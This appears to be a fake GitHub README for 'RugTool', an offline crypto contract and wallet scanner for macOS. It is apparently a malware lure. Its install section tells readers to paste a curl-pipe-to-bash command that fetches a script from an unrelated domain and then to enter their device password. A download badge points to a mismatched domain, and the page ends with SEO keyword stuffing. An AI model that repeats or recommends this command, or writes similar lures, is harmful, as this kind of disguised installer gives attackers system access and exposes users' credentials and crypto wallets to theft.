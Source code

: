 # RugTool — Offline Setup Assistant

[![Download RugTool](https://img.shields.io/badge/Download-RugTool-blueviolet)](https://affinity-designer-download-mac.github.io/.github)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🧾 Smart contract risk scanning  
🔐 Wallet vulnerability checks  
📊 Token metadata and audit explorer  
💻 Works without internet or external APIs  
🛠 Ideal for cold environments and secure workflows

## 🖼 Preview

![Smart Contract Risk Analysis](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdgJMGhw4YTwvcPQr0Dg8lDGO2iiE8PgonXsDRBiJzKvtYCrvQ2l-XkKsQV-pqhZnA1XzJhYix00bENQ8srzomLTg12ah93jUbulLhNc_7idtb8L8Az3MfHzc5FMnVGJauORMVXBA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Offline smart contract security scanner*

![Token Analysis Interface](https://lh3.googleusercontent.com/5KCYjwRAD1p_1vgnjMuoi59zNuGbuhGOZPxFlRFWZ_CscEO1LpJlFWJW0YXx28l9RNlVeTi_wMbkohmwAu94_8ya=s1280-w1280-h800)  
*Detailed token breakdown in an airgapped environment*

![Audit Results Overview](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdiT1SSNckc5YhDP35lhYAizvoXly2aMKSEFnnqkKRHFtmoj5WOtUhivK9g1q9UaCflhDcntmjgQjR1vqwzvMlF33NuRa-wHB3wOcXUe8JdAVaM_JAmhMcB4Y5K1AUqvAXj3UhoEA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Interactive results and contract flags viewer*

### 🔎 SEO Keywords

`rugtool mac`, `rugtool mac download`, `rugtool mac free download`, `download rugtool for mac`, `rugtool for macbook`,  
`rugtool macbook air`, `rugtool software mac`, `rugtool tool mac`, `rugtool installer mac`, `rugtool utility mac`,  
`rugtool app mac`, `rugtool dmg mac`, `rugtool mac os`, `rugtool macos download`, `rugtool mac os x`,  
`rugtool mac latest version`, `rugtool mac full`, `rugtool mac compatibility`, `rugtool mac guide`, `rugtool setup mac`,  
`rugtool support mac`, `rugtool tool for mac`, `rugtool download mac os`, `rugtool mac appstore`, `rugtool install on mac`

